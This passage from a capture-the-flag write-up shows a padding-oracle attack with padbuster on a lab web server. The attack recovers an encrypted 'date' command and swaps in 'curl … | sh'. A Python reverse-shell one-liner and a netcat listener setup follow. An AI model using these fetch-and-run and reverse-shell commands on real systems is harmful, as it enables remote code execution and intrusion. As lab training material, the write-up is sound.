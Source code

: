Interestingly the server only returns this error with up to 7 bytes. So 8 bytes is apparently fine, this means that the server uses 8 bytes as the block size for the block cipher.

I first decoded the data that was "randomly" written into the HTML page.
You can use `padbuster` for that, but it takes like forever. If you like something faster use [`padre`](https://github.com/glebarez/padre), credit goes to 0day:
```terminal
padbuster -cookies 'PHPSESSID=0e9hu3j0nfug89ag2vmhf65i3a' -encoding 0 -error 'Padding error' 'http://10.10.227.78:1337/dashboard.php?date=Ff4CgePWWMavKFP7DuD0ANUFg72DrurV4ZPpS42fNrI='
```

The decrypted data from the HTML code looks like the `date` command for Linux.

```
[+] Decrypted value (ASCII): date +%Y

[+] Decrypted value (HEX): 64617465202B255908080808080808080808080808080808

[+] Decrypted value (Base64): ZGF0ZSArJVkICAgICAgICAgICAgICAgI
```

My idea was now to use this to create a command and execute a shell.

### Shell
To get a shell on the server we can use `padbuster`. I added the plaintext option which can be used to encrypt the plaintext.
```sh
padbuster -cookies 'PHPSESSID=0e9hu3j0nfug89ag2vmhf65i3a' -encoding 0 -error 'Padding error' 'http://10.10.227.78:1337/dashboard.php?date=Ff4CgePWWMavKFP7DuD0ANUFg72DrurV4ZPpS42fNrI=' 'Ff4CgePWWMavKFP7DuD0ANUFg72DrurV4ZPpS42fNrI=' 8 -plaintext 'curl 10.14.78.229/a | sh'
```

The output will take some time but finally return something like this:

```terminal
-------------------------------------------------------
** Finished ***

[+] Encrypted value is: 2ujSBvRzahq3QMXurmRxkbL%2BhB4vT4jGqsEAqzvXYU8AAAAAAAAAAA%3D%3D
-------------------------------------------------------
```

Now create a file a for the reverse shell:
```sh
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.78.229",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Now let's start a Python server and a `netcat` listener in two different terminal windows:
```terminal
sudo python3 -m http.server 80
nc -lvnp 9001
```

